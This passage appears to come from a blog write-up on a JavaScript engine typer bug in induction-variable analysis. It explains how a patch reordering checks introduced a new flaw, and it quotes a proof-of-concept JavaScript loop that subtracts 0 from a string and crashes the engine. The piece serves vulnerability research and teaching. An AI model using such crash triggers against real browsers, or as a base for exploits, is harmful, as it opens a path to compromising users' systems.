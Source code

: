 ```
}
```

Another note:

* The order used to be 1. get induction variable info, 2. see if the increment variable can become NaN, and 3. check if we have the induction variable's type or the incrementor is 0.

* Now the order is 1. check if we have the induction variable's type or the incrementor is 0, 2. see if the increment variable can become NaN, and 3. get induction variable info.

Before, the code was attempting to optimize in most events if we saw that the induction variable and incrementor were both type `kInteger` and would not result in NaN. The patch favors exiting early in the event that neither is a `kInteger` or the incrementor is +/- Infinity.

## Second PoC

You may have missed it, but that subtle switch in ordering actually introduced a new bug. In this week's edition of "Boy is JavaScript Awful" we'll discuss how easy it is to miss situations where a variable can change types. After the first 2 patches, another PoC was released.

> The check for the "increment variable equals zero" fast case[1] has been moved before the check that the initial type is `kInteger`[2]. However, the addition and subtraction of 0 are not guaranteed to preserve types in JavaScript, for example:
> -0 + 0 == +0
> string - 0 == number
> etc.
> The hardening patch prevents the issue from being immediately exploitable, but I'm certain there are other ways to abuse typer bugs.
> The following test case triggers a SIGTRAP crash:

```
function trigger(str) {
var k = 0;
if (str == 2) {
  str = "321";
} else {
  str = "123";
}
for (var i = str; i < 1000; i -= 0) {
    if (++k > 10) {
      break;
    }
}

return i;
};


for (let i = 0; i < 20000; ++i) {
trigger(0);
}
```
